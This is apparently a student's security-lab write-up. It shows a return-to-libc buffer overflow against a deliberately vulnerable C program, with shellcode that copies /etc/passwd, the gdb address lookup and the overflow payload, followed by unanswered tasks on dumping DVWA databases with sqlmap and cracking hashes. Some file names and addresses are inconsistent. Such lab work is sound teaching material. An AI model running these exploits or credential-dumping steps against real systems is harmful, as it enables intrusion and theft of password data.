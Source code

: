 # Lab #1,22110078, Nguyen Tien Toan, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
## 1. Run the Docker virtual machine.
We will run the Docker virtual machine by this code: 

`docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`

![image](https://github.com/user-attachments/assets/14fda446-1c85-444a-b89e-9439a4073ce5)

From now, we will do this task 1 on this Docker virtual machine. 

## 2. Compile the asm program
We will have the asm program name is shellcode.asm
We will use these codes to compile shellcode.asm:
`
nasm -f elf32 shellcode.asm -o shellcode.o
ld -m elf_i386 -o shellcode shellcode.o
`

![image](https://github.com/user-attachments/assets/900c43ac-5768-4886-9b5b-50ce6ff74fa1)

So here, after compile, we have 2 new file: shellcode.o, shellcode.

## 3. Compile the the vulnerable C program
We will have the vulnerable C program name is vuln.c
We will use this code to compile vuln.c:
`
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
`

![image](https://github.com/user-attachments/assets/bfc9496f-8017-46ef-b8a3-4171bec260b2)

After compile, we have new file: vuln.out

## 4. Draw stackframe
Base on code of vuln.c, we have this stackframe:
And in this task, we will use return-to-libc attack with environment variable. So that we also need the system() stackframe:

![image](https://github.com/user-attachments/assets/ebce8e06-deaf-4486-85df-ef6034f7027e)



## 5. Turn off the ASLR
We use this code to turn off the address space randomization on stack:
`
sudo sysctl -w kernel.randomize_va_space=0
`
![image](https://github.com/user-attachments/assets/e97f0eef-ccb6-4944-b789-fc60a2818a78)

## 6. Create the environment variable
Before create the environment variable, we use pwd to find the current path.
And out current path is: /home/seed/seclabs
We will create the environment variable by this code:
`
export copy_file="/home/seed/seclabs/shellcode"
`
![image](https://github.com/user-attachments/assets/d34cb24e-9ab3-400d-8b63-d212fd3fd7b6)

## 7. Find the address for the attack
We will use gdb peda to find the address
To enter to gdb, use this code:
`gdb -q vuln.out`

![image](https://github.com/user-attachments/assets/8c4392be-c5be-40a4-8da5-2728b7a30915)

Then use these code to find the address:
``
start
p system
p exit
find /home/seed/seclabs/shellcode
``

![image](https://github.com/user-attachments/assets/6f667139-73b2-4ee5-a207-4475f61274c6)

We have the address: 
- system: 0xf7e50db0 => \xb0\x0d\xe5\xf7
- exit: 0xf7e449e0 => \xe0\x49\xe4\f7
- /home/seed/seclabs/shellcode: 0xffffd94d => \x4d\xd9\xff\xff

## 8. Attack
From them and the stackframe, we have this code:
`
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4d\xd9\xff\xff')")
`
![image](https://github.com/user-attachments/assets/56e49dd2-494f-4366-9896-0b8c03400e63)

By this code, we will insert the address of system() into to return address of main() and then, it will execute the code of system(), and we also insert the exit() into the return address of system() (argc of main()) to avoid the segmentation fault after execute the system(), beside we also insert the variable (insert into agrv of main()) to complete the system() code.

## 9. Check result
The shellcode will copy /etc/passwd to /tmp/outfile. 
Therefore we can use this code to check for the result:
`
cat /tmp/outfile
`
![image](https://github.com/user-attachments/assets/42a5c06d-d5e5-4f93-b63d-2fc8e0421d34)
And by this picture, we can tell that the attack was successful.


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:




